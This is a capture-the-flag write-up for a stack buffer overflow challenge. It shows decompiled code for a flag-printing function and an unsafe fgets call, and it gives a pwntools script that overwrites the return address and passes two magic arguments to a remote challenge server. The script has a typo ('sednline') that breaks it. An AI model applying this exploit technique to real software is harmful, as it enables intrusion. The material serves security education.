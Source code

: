 # Summary
For this challenge we have another stack overflow challenge, this time focuseing on calling other functions no setup from the stack. The tools for this challenge will be Ghidra to view and understand the code, and pwntools to execute the payload we will create on the remote server.

# Info Gathering
On the first look through the code in Ghidra, we see a function called huh_whats_this_function_for, which prints out the flag from a text file. We see no call to this function in the basic run of the program, meaning we have to spoof the call somehow with stack overflow. Looking trhough the code we see a function called breakfast, which we can actually overflow. Local_24 is our target in this case, and looking at the stack we see we have a offset of 0x24, which is equal to 36. Meaning we have to give 36 bytes of junk to get to the rest of the stack.
```
void huh_whats_this_function_for(int param_1,int param_2)

{
  char local_33 [35];
  FILE *local_10;
  
  if ((param_1 == -0x74520ff3) && (param_2 == -0x54524542)) {
    printf("Here is the correct flag: ");
    local_10 = fopen("flag.txt","r");
    fgets(local_33,0x22,local_10);
    fclose(local_10);
    puts(local_33);
  }
  return;
}
```
```
void breakfast(void)

{
  char local_24 [20]; #value to overflow
  int local_10;
  
  puts("What breakfast do you want to eat?");
  do {
    local_10 = getchar();
    if (local_10 == 10) break;
  } while (local_10 != -1);
  fgets(local_24,200,stdin); #grabs more than necessary
  puts("I guess if thats what u want...");
  return;
}

```
# Payload Creation
With the knowledge of the overflow above we can begin creating a payload with pwn tools. First things first we get to to the breakfast function in the remote server. From there we fill up 36 bytes of junk to get to return address. Here we fill in the return address for the flag printing function. Then we add another garbage return address so that after the flag function runs it can find a function to continue to(doesn't matter since we just need the flag and don't need the program to continue afterwards). After those two address, we have to pass in the variables for the function run, with inputting param_1 first then param_2 since the stack is reversed with variables.

```python
from pwn import *

p = remote("chal.ctf-league.osusec.org", 7159)
p.recv()
p.recv()
p.sendline("1")
p.recv()
p.recv()
p.sednline("2")
p.recvline()
p.sendline((b'A'*36) + p32(0x08048646) + p32(0) + p32(0x8badf00d) + p32(0xabadbabe))
p.interactive()
```

When this script is run it will print out the flag to our terminal, then we can submit it for points. 